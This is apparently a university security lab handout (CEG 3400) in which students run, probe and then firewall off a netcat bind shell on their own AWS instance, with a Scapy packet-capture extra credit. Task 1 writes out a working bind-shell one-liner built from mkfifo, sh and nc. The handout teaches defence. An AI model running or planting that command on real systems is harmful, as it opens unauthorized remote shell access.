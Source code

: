 ## Lab 4 : CEG 3400

### The Terminalator

Table of contents:
* [Background](LAB4-INSTRUCTIONS.md#background)
* [Objectives](LAB4-INSTRUCTIONS.md#objectives)
* [Preparation](LAB4-INSTRUCTIONS.md#preparation)
* [Task 1: A Shell Game](LAB4-INSTRUCTIONS.md#task-1-a-shell-game)
* [Task 2: Iptables](LAB4-INSTRUCTIONS.md#task-2-iptables)
* [Task 3: Any Port in a Storm](LAB4-INSTRUCTIONS.md#task-3-any-port-in-a-storm)

---

#### Background and Objectives

In this lab you will learn about some basic (and more advanced) network manipulation 
tools by catpuring and creating packets, and exploring a well documented type of 
attack.

This lab assumes you have a basic understanding of networking, IP addresses, ports
and packets (from CEG-2350 and what was covered in class).

Students should become familiar with the following:

* creating, sending, and capturing packets with Scapy
* abusing netcat and pipes
* configuring iptables (firewalls)

---

#### Rubrik
| Item | # Points|
| --- | --- |
| 10 commits | 10 |
| Good markdown style | 20 |
| Task 1 | 30 |
| Task 2 | 30 | 
| Task 3 | 30 |
| EC     | 20 |

---

### Preparation

This lab will require some work be done in AWS!  For those of you unfamiliar with AWS please see the following guide:

* [AWS Guide for CEG 3400](AWS.md) 

Please deploy the below instance and work inside the lab.

* [CEG 3400 Lab 4 AWS link](https://console.aws.amazon.com/cloudformation/home?region=us-east-1#/stacks/new?stackName=ceg3400Lab&templateURL=https:%2F%2Fwsu-cecs-cf-templates.s3.us-east-2.amazonaws.com%2Fcourse-templates%2Fceg3400-mek.yml)
* Identify the IP address of the running EC2 instance created [in the EC2
  page](https://console.aws.amazon.com/ec2/v2/home?region=us-east-1#Instances:)

---

## Task 1: A Shell Game

You find the following command in the command history on one of your systems:

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 1234 >/tmp/f
```

Investigate this command by running it on your AWS system.  While it is running scan the
***PUBLIC*** IP address of your AWS instance.

A security researcher mentioned that an outbreak of Bind and Reverse shells have been cropping 
up on your network recently.  Do some research on ***Bind Shells*** and ***Reverse Shells***.

After you have an understanding of what a Bind shell and reverse shell are see if you can 
make this one respond!

Hint: Try connecting to the opened port with `nc` from a different system.  (We will be covering `nc` usage on Thursday, but it is a simple command if you want to tackle it before then.

Answer all questions in `README.md`.

**You may want to take a look at the Extra Credit section below prior to moving on with the lab.**

---

## Task 2: Iptables

Clearly the previous command should not be left running.  But we can do better.

Using `iptables` block all incoming access to the malicious shell port on your AWS system.

Hint: you can craft a single `iptables` command or you can use `iptables-save` 
and `iptables-restore` to simplify saving the full firewall rules list.

---

## Task 3: Any Port in a Storm

After successfully blocking that shell your crack team of security researchers start 
seeing more malicious shells running on other ports.  Before you can start yelling at
your co-workers you need to lock your system down.

Identify all NEEDED ports for your standard communications with this server (SSH) and 
block ***ALL OTHER PORTS***.

***Hint:*** you will likely mess this up when deploying, be sure to document and 
`git commit` / `git push` all files including your final task 4 iptables-rules file 
before attempting this task.  If you lock yourself out that is OK, just answer all 
questions for this task.

---

## Extra Credit

Using scapy (which may need to be installed on your AWS system), capture a packet using `sniff()` 
that contains either a command being sent to your malicious shell, or a response to a command.

Print the contents of the packet using `show()` and describe what the command/response is.  Include
this `show()` and any other data used in determining the contents of the packet.

**All EC questions must be answered to recieve any extra credit.**  I will not be grading partially finished EC.


